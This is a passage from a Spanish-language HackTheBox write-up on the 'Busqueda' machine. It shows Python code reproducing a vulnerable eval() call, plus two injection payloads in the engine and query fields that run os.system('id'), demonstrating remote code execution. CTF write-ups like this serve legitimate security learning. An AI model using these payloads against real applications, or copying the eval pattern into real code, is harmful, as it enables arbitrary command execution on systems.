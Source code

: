 En el campo query tambien no da exito en local.

![query-rce](/assets/hackthebox/img/machines/easy/busqueda/query-rce.png)

Tambien en el servidor remoto.

![query-remote-rce](/assets/hackthebox/img/machines/easy/busqueda/query-remote-rce.png)

Dejo el codigo de python que use para probar rce.

{% highlight python %}
# engine rce

class Engine:
    class Accuweather:
        def search(self, copy_url, open_web):
            return ""

query = "l1nvx"
copy = None
open = None
# RCE
engine = "Accuweather|(__import__('os').system('id'))#"
eval(f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})")


# query rce

class Engine:
    class Accuweather:
        def search(self, copy_url, open_web):
            return ""
        
engine = "Accuweather"
copy = None
open = None
# RCE
query = "' + str(__import__('os').system('id')) + '"
eval(f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})")
{% endhighlight %}
